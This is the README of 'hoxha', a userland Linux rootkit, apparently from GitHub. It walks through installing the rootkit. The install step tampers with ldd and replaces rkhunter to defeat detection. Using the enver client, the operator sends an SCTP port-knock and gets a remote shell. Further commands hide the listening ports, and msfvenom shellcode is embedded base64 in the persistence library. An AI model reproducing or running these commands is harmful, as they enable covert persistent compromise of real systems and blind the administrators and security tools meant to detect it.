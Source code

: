 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
If you are not on a Debian based system, you will want to run this to change to the name of your python binary:
```
sed -i 's/python3/python/g' hoxha/persistance/libexec.c; sed -i 's/python3/python/g' hoxha/persistance/libhide.c  
```
Considering SCTP is installed and loaded in the kernel, you can install the rootkit this:
```
cd hoxha && make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && make install clean && sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && cp ./rkhunter $(which rkhunter) 2>/dev/null
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./enver 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest updating this with the paths to where you have the 'hoxha' folder and running this when exiting the shell:
```
/home/user/hoxha/persistance/patchelf --remove-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall) && killall -9 hoxha && systemctl restart cron && /home/user/hoxha/persistance/patchelf --add-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall)
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder to apply your changes.

Currently tested for Debian Trixie. Other distos may work or require manual intervention. 
